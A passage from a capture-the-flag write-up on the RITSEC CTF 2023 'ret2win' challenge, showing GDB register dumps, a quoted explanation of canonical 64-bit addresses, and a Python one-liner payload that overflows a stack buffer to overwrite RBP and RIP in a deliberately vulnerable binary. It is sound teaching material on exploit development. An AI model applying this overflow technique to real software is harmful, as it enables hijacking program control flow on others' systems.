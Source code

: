 ```shell
$r8    : 0x000000004056d9  →  0x0000000000000000
$r9    : 0x73              
$r10   : 0x0               
$r11   : 0x202             
$r12   : 0x0               
$r13   : 0x007fffffffdd78  →  0x007fffffffe128  →  "TERMINATOR_DBUS_NAME=net.tenshu.Terminator21a9d5db[...]"
$r14   : 0x0               
$r15   : 0x007ffff7ffd020  →  0x007ffff7ffe2e0  →  0x0000000000000000
$eflags: [zero carry PARITY adjust sign trap INTERRUPT direction overflow RESUME virtualx86 identification]
$cs: 0x33 $ss: 0x2b $ds: 0x00 $es: 0x00 $fs: 0x00 $gs: 0x00 
[...]
```

As you can see, our RBP register is filled with 8 B's (`42` in hex).

> The reason the RIP was not overflowed (technically it was, as we saw in the above screenshot, but there's more to it), is because the `AAAAAAAA` (`0x4141414141414141`) is considered a non-canonical memory address, or, in other words, `0x4141414141414141` is a 64-bit wide address and current CPUs prevent applications and OSes to use 64-bit wide addresses.
>   
> Instead, the highest memory addresses programs can use are 48-bit wide addresses and they are capped to `0x00007FFFFFFFFFFF`. This is done to prevent the unnecessary complexity in memory address translations that would not provide much benefit to the OSes or applications as it's very unlikely they would ever need to use all of that 64-bit address space.
>  
> Knowing about canonical addresses, we could take control of the RIP if the 64-bit wide return address `0x4141414141414141` (our garbage data) we tried to plant into the vulnerable program's stack, was translated to a 48-bit canonical address by masking off the 2 highest bytes. (From [Red Team Notes](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/64-bit-stack-based-buffer-overflow))

**To overflow RIP register in 64-bit executable, we can use the following testing payload:**
```shell
┌[siunam♥earth]-(~/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win)-[2023.04.01|20:46:22(HKT)]
└> python3 -c "print('A' * 32 + 'B' * 8 + 'C' * 6)"  
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCC

gef➤  r
[...]
Are you expert at exploit development, join the world leading cybersecurity company, Republic of Potatoes(ROP)
[*] This is a simple pwn challenge...get to the secret function!!
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCC
[*] Good start AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBCCCCCC, now do some damage :) 

Program received signal SIGSEGV, Segmentation fault.
0x0000434343434343 in ?? ()

[ Legend: Modified register | Code | Heap | Stack | String ]
──────────────────────────────────────────────────────────────────────────────────────────── registers ────
$rax   : 0x56              
$rbx   : 0x007fffffffdd68  →  0x007fffffffe0ef  →  "/home/siunam/ctf/RITSEC-CTF-2023/BIN-PWN/ret2win/r[...]"
$rcx   : 0x0               
$rdx   : 0x0               
$rsp   : 0x007fffffffdc50  →  0x0000000000000001
$rbp   : 0x4242424242424242 ("BBBBBBBB"?)
$rsi   : 0x000000004052a0  →  "[*] Good start AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBB[...]"
$rdi   : 0x007fffffffd6c0  →  0x007ffff7e14e70  →  <funlockfile+0> mov rdi, QWORD PTR [rdi+0x88]
$rip   : 0x434343434343    
$r8    : 0x000000004056df  →  0x0000000000000000
```